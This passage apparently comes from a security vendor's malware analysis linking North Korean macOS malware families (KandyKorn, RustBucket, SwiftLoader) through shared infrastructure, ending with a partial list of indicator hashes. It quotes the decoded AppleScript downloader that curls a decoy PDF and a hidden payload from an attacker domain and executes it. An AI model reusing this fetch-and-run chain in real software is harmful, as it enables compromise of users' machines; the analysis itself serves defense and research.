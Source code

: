 This looks like #Bluenoroff activityCrypto-assets and their risks for financial stability[.]app[.]ziphttps://t.co/jzuXP1YiQ6Communicating with on-global[.]xyz (142[.]11[.]209[.]144)
— KSE (@KSeznec) October 26, 2023
 
This application is also signed and notarized by Apple (since revoked) by a developer with the name “Northwest Tech-Con Systems Ltd (2C4CB2P247)”. The bundle identifier is com.EdoneViewer and the app’s main executable is EdoneViewer.
There are some interesting overlaps between this version of SwiftLoader and the KandyKorn operation. 
Our analysis of EdoneViewer shows it contains a hardcoded URL encoded with a single-byte XOR key of Ox40. 

Once decoded, we can see the malware reaches out to the domain on-global.xyz and drops a hidden executable at /Users/Shared/.pw. 

D%3D", "http[:]//on-global[.]xyz/Of56cYsfVV8/OJITWH2WFx/Jy5S7hSx0K/fP7saoiPBc/A%3D%3D", 
"/users/shared/Crypto-assets and their risks for financial stability.pdf", "/users/shared/.pw"}
do shell script "curl -o \"" & p & "\" " & d & a & "&& open \"" & p & "\"" & "&& 
curl -o " & b & " " & s & a & " -d pw" & "&& chmod 770 " & b & "&& 
/bin/zsh -c \"" & b & " " & s & " &\" &> /dev/null"

We note that the KandyKorn Python script FinderTools reached out for its next stage to malware hosted on the domain tp.globa.xyz and that SUGARLOADER dropped hidden files at /Users/Shared/.sld. 
The .pw executable, named download.bin on VirusTotal (060a5d189ccf3fc32a758f1e218f814f6ce81744), takes the URL hardcoded in the EdoneViewer binary as a launch argument. Unfortunately, the C2 did not respond with a download on our test, but the file contains a hardcoded reference to /Users/Shared/.pld.

Recall that we discovered a variant of KANDYKORN RAT with the same file name .pld above (26ec4630b4d1116e131c8e2002e9a3ec7494a5cf). We assess with medium confidence that /Users/Shared/.pld refers to the same .pld KandyKorn RAT given the overlaps in infrastructure, objectives and TTPs noted here and by previously mentioned researchers.
SentinelOne Customers Protected from KandyKorn and RustBucket Malware
SentinelOne Singularity detects and protects against all known components of KandyKorn and RustBucket malware.

Conclusion
Our analysis has established new connections between previous research findings. We note specific shared infrastructure that indicates a link between ObjCShellz payloads and SwiftLoader stagers. We also provide the first clues that RustBucket droppers and KandyKorn payloads are likely being shared as part of the same infection chain. 
Our analysis corroborates findings from other researchers that North Korean-linked threat actors’ tendency to reuse shared infrastrucutre affords us the opportunity to widen our understanding of their activity and discover fresh indicators of compromise. Below we provide a list of indicators we observed and analyzed in this research.
Indicators of Compromise
SUGARLOADER
d28830d87fc71091f003818ef08ff0b723b3f358
HLOADER
43f987c15ae67b1183c4c442dc3b784faf2df090
KANDYKORN RAT
26ec4630b4d1116e131c8e2002e9a3ec7494a5cf
46ac6dc34fc164525e6f7886c8ed5a79654f3fd3
62267b88fa6393bc1f1eeb778e4da6b564b7011e
8d5d214c490eae8f61325839fcc17277e514301e
8f6c52d7e82fbfdead3d66ad8c52b372cc9e8b18
9f97edbc1454ef66d6095f979502d17067215a9d
ac336c5082c2606ab8c3fb023949dfc0db2064d5
c45f514a252632cb3851fe45bed34b175370d594
ce3705baf097cd95f8f696f330372dd00996d29a
e244ff1d8e66558a443610200476f98f653b8519
e68bfa72a4b4289a4cc688e81f9282b1f78ebc1f
e77270ac0ea05496dd5a2fbccba3e24eb9b863d9
ObjCShell
79337ccda23c67f8cfd9f43a6d3cf05fd01d1588
SecurePDF Viewer